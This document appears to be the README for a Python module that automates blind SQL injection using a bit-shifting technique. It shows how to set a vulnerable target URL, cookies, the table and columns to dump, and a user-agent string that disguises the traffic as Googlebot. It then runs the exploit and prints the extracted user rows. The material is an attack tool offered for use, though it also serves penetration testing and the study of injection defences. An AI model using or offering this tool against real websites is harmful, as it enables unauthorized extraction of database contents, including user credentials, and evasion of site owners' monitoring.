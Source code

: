 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** characters instead of guessing them. It requires 7/8 requests per character, depending on the configuration.

## Usage

```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration:

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1"

# Specify cookie (optional)
x.options["cookies"] = ""

# Specify a condition for a specific row, e.g. 'uid=1' for admin (optional)
x.options["row_condition"] = ""

# Boolean option for following redirections
x.options["follow_redirections"] = 0

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# Specify table to dump
x.options["table_name"] = "users"

# Specify columns to dump
x.options["columns"] = "id, username"

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='success'>true</p>"

# See below
x.options["assume_only_ascii"] = 1
```

The `assume_only_ascii` option makes the module assume that the characters it's dumping are all ASCII. Since the ASCII charset only goes up to `127`, we can set the first bit to `0` and not worry about calculating it. That's a `12.5%` reduction in requests. Testing locally, this yielded an average speed increase of `15%`. Of course this can cause issues when dumping chars that are outside of the ASCII range. By default, it's set to `0`.

Once configured:

```
data = x.exploit()
```

This returns a 2-dimensional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'user1'], ['2', 'user2'], ['3', 'user3'], ['4', 'user4']]`

Optionally, your scripts can then harness the [tabulate](https://pypi.python.org/pypi/tabulate) module to output the data:

```
from tabulate import tabulate

data = x.exploit()

print tabulate(data,
               headers='firstrow',  # This specifies to use the first row as the column headers.
               tablefmt='psql')     # Using the SQL output format. Other formats can be used.
```

This would output:

```
+------+------------+
|   id | username   |
|------+------------|
|    1 | user1      |
|    2 | user2      |
|    3 | user3      |
|    4 | user4      |
+------+------------+
```
